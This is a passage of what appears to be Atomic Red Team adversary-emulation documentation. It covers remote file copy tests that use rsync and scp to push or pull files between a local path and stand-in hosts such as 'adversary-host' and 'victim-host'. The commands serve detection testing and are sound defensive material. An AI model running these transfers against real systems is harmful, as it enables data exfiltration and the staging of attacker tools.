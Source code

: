 #### Attack Commands: Run with `bash`!

```bash
rsync -r #{local_path} #{username}@#{remote_host}:#{remote_path}
```

<br/>
<br/>

## Atomic Test #2 - rsync remote file copy (pull)

Utilize rsync to perform a remote file copy (pull)

**Supported Platforms:** Linux, macOS

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_path | Path of folder to copy | Path | /tmp/adversary-rsync/|
| username | User account to authenticate on remote host | String | adversary|
| remote_host | Remote host to copy from | String | adversary-host|
| local_path | Local path to receive rsync | Path | /tmp/victim-files|

#### Attack Commands: Run with `bash`!

```bash
rsync -r #{username}@#{remote_host}:#{remote_path} #{local_path}
```

<br/>
<br/>

## Atomic Test #3 - scp remote file copy (push)

Utilize scp to perform a remote file copy (push)

**Supported Platforms:** Linux, macOS

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_file | Path of file to copy | Path | /tmp/adversary-scp|
| username | User account to authenticate on remote host | String | victim|
| remote_host | Remote host to copy toward | String | victim-host|
| remote_path | Remote path to receive scp | Path | /tmp/victim-files/|

#### Attack Commands: Run with `bash`!
